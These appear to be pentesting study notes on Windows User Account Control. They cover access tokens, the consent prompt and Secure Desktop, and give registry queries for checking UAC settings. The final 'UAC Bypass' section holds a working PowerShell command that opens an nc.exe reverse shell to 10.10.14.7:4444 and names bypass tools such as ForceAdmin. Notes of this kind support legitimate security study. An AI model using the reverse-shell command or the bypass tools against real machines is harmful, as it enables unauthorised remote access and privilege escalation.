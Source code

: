 public:: true
alias:: UAC

- The *[User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/)* (UAC) is a Windows security feature that protects the operating system by **running most applications with standard user privileges**, even if the user launching them is an Administrator.
- An administrative user obtains [two access tokens after a successful logon](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#sign-in-process)
	- One is a standard user token *(AKA filtered admin token)*, which is used to perform all non-privileged operations.
	- The other one is a regular administrator token and is used when the user wants to perform a privileged operation.
- When changes to the system require administrator-level permission, UAC notifies the user *(part of the local Administrators group)*, giving the opportunity to approve or deny the change via the well-known *consent prompt*.
  #+BEGIN_CENTER
  ![image.png](../assets/image_1705940657849_0.png){:height 292, :width 461} 
  #+END_CENTER
	- If the user approves the change, the action is performed with the highest available privilege.
	- If the user doesn't approve the change, the action isn't performed and the application that requested the change is prevented from running.
- When changes to the system require administrator-level permission, UAC notifies the standard user, giving the opportunity to provide credential for a local Administrator via the *credential prompt*.
  #+BEGIN_CENTER
  ![image.png](../assets/image_1705941606160_0.png){:height 363, :width 315} 
  #+END_CENTER
- Security minded applications might be programmed to allow a combination of administrator and standard user operations. In this case the shield icon is shown ![image.png](../assets/image_1705941862012_0.png){:height 37, :width 22}
	- For example, from the **Date and Time** standard users can view the clock and change the time zone, but a full administrator access token is required to change the local system time.
	  #+BEGIN_CENTER
	  ![image.png](../assets/image_1705941910846_0.png){:height 274, :width 337} 
	  #+END_CENTER
- **Secure Desktop**
	- Available since Windows 10
	- The secure desktop’s primary difference from the user desktop is that only **trusted processes running as SYSTEM are allowed** to run here (that is, nothing is running at the user’s privilege level). It helps protect against **input and output spoofing** by presenting the credentials dialog box in a **protected section of memory** that is accessible only by **trusted system processes**.
	- Otherwise an attacker can trick
		- users to disclose their passwords
		- Spoof the mouse cursor by hiding the real cursor and replacing it with an offset so the cursor is actually pointing to the **Allow** button
- **UAC Architecture**
	- A detailed explanation of how UAC works can be found [here](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#uac-architecture).
	  #+BEGIN_CENTER
	  ![image.png](../assets/image_1705959070635_0.png)
	  #+END_CENTER
- **Check if UAC is enabled**
	- To confirm if UAC is enabled do:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      EnableLUA    REG_DWORD    0x1
	  ```
		- `1` then UAC is **activated**
		- `0` then UAC is **inactive**
		- If the key doesn't exist, then UAC is **inactive**
	- Then, check which level is configured:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      ConsentPromptBehaviorAdmin    REG_DWORD    0x5
	  ```
		- If `0` then, UAC won't prompt (like disabled)
		- If `1` the admin is asked for username and password to execute the binary with high rights (on Secure Desktop)
		- If `2` *(Always notify me)* UAC will always ask for confirmation to the administrator when he tries to execute something with high privileges (on Secure Desktop)
		- If `3` like `1` but not necessary on Secure Desktop
		- If `4` like `2` but not necessary on Secure Desktop
		- if `5` *(default)* it will ask the administrator to confirm to run non Windows binaries with high privileges
	- Then, you have to take a look at the value of `LocalAccountTokenFilterPolicy`
		- If the value is `0`, only the RID 500 user *(built-in Administrator)* is able to perform admin tasks without UAC
		- If the value is `1`, all accounts inside "Administrators" group can perform admin tasks without UAC
	- Summary
		- If `EnableLUA=0` or doesn't exist, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=1`, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=0`, no UAC for RID 500 *(Built-in Administrator)*
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=1`, UAC for everyone
- **UAC Bypass**
	- #+BEGIN_CAUTION
	  Note that if you have graphical access to the victim, UAC bypass is straight forward as you can simply click on "Yes" when the UAC prompt appears
	  #+END_CAUTION
	- If UAC is already disabled (`ConsentPromptBehaviorAdmin` is `0`) you can execute a reverse shell with admin privileges (high integrity level) using something like:
	  ```powershell
	  Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
	  ```
	- Noisy brute-force UAC bypass
		- If you don't care about being noisy you could always run something like **[ForceAdmin](https://github.com/Chainski/ForceAdmin)** that asks to elevate permissions until the user does accepts it.
	- Abuse Kerberos Tickets with [KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)